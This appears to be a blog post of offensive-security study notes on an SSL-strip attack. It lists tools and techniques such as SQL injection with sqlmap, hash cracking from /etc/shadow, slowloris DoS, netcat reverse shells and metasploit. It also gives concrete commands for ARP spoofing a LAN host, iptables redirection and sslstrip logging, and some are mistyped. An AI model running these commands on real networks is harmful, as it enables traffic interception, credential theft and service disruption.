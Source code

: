 ```yaml
---
title      : "SSL Strip Attack"
date       : 2019-09-19T19:07:54Z
publishdate: 2019-09-19T19:07:54Z
draft      : false
comments   : true
weight     : 5
revision   : 0
series:
- Security
categories:
- development
tags:
- ssl
---
```


<!-- more -->
* convert `https` to `http`
* Peoplr try to reuse/recycle the passwords
* Bannergrab and search
* Home router attacking
  * steal bacupfile binary file
  * decode binary to human redable format
* nmap can run scripts
* setup fake DNS server in your home router
* `setoolkit`
  * clone a website and run from your machines
* [SQL Injection](https://www.youtube.com/watch?v=ciNHn38EyRc)
  * user -> website -> database (mostly MD5 hashs)
  * attacker -> database
  * User credentials are not the only useful infomration you can find
    * hackers stealing credit card info (which was in plain text)
  * http://www.dvwa.co.uk/
    * run sql-client
  * get `sessionid` cookie
    * most security and IDS are active on login page
      * create a user, log in and then perform attack
  * get [`sqlmap`](http://sqlmap.org/)
    * download everything, then analyze later
  * Second order injection
* BReak HASHes
  * john the ripper
  * hydra - a very fast network logon cracker which supports many different services
    * someone scans your router multiple times everyday for default passwords
    * use over Proxies
  * `findmyhash`
  * passwords are saved at `/etc/shadow`
  * Why crack password when you are already the root?
    * People tend to reuse the passwords
  * `unshadow` - combines passwd and shadow files
* DoS - Denial of service
  * `hping3`
  * practise on your own router
  * `namp --script http-slowloris --max-parallelism 400 192.169.1.1 -vv`
* Script Kiddies
* Reverse Shells
  * `netcat`
    *
  * mostly detected by Anti viruses on fully updated systems
    * Try to code by yourself
* `metasploit`
  * Exploit Fframework
    * Take a vurnability then explot it
      * vurnability detection
    * webcam snap

iptables/ip6tables
: administration tool for IPv4/IPv6 packet filtering and NAT

Redirect all traffic to port 8080

```
iptables -t nat -I PREROUTING --src 0/0 --dst 127.0.0.1 -p tcp --dport 80 -j REDIRECT --to-ports 8080

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080

# verify
iptables --table nat --list PREROUTING
```

{{< cmd >}}
# Identify target
route
nmap [[[192.168.1.2-254]]]

# launch SSL strip attack
arpspoof -i wlp2s0 -t 192.168.1.103 -r 192.168.0.1
sslstrip -l 8080
tail -f sslstrip.log
{{< cmd >}}

1. Scan/Discover entire local network

## Fun things

1. change browser languague while at work
2. `squid3`, `apache`, `imagemagick`, `ghostscript`, `jp2a`
   1. configure `/etc/squid3.conf`

* DNS Attacks
* `bridge-utils`
  * `brctl addbr evil`
  * `brctl addif evil at0`
  * `ip addr evil at0 up`
  * `dhclient evil &`

### Footnotes

[^1]:
[^2]:
